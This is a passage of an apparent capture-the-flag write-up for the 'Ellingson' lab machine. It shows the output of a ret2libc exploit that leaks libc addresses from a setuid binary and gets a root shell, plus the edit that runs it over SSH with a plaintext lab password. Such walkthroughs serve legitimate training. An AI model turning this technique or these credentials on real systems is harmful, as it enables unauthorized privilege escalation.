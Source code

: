 ```bash
┌─[✗]─[rin@parrot]─[~/boxes/Ellingson]
└──╼ $python3 exploit.py
[+] Starting local process './garbage': pid 162580
[*] Leaked addr: 0x7f5f3d50d550
[*] libc base: 0x7f5f3d497000
[*] System: 0x7f5f3d4dfdb0
[*] Setuid: 0x7f5f3d5630c0
[*] /bin/sh: 0x7f5f3d621156
[*] Switching to interactive mode
Enter access password:
access denied.
$ whoami
root
$
```

Note that to become root, the program needs to have the setuid bit set and the owner of the program needs to be root:

```bash
sudo chown root garbage
sudo chmod u+s garbage
```

The final step is to run the exploit on the Ellingson box. To do this, you need to change the addresses from libc to the addresses of the version that is on the Ellingson machine. You can find out what version of libc is being used on Ellingson using the ldd command:

```bash
margo@ellingson:~$ ldd /usr/bin/garbage
linux-vdso.so.1 (0x00007ffc89d70000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f31f7e49000)
/lib64/ld-linux-x86-64.so.2 (0x00007f31f823a000)
```

You can then simply change the way the program is run from

```python
p = process("./garbage")
```

to:

```python
s = ssh(host = 'ellingson.htb', user = 'margo', password = 'iamgod$08')
p = s.process('/usr/bin/garbage')
```

Run the program to get access:

```python
┌─[rin@parrot]─[~/boxes/Ellingson]
└──╼ $python3 exploit.py
[+] Connecting to ellingson.htb on port 22: Done
[*] margo@ellingson.htb:
Distro Ubuntu 18.04
OS: linux
Arch: amd64
Version: 4.15.0
ASLR: Enabled
[+] Starting remote process '/usr/bin/garbage' on ellingson.htb: pid 1416
[*] Leaked address: 0x7fa8c7a819c0
[*] libc_base: 0x7fa8c7a0d980
[*] System: 0x7fa8c7a50440
[*] Setuid: 0x7fa8c7ae6970
[*] /bin/sh: 0x7fa8c7bb4e9a
[*] Switching to interactive mode
access denied.
# $ whoami
```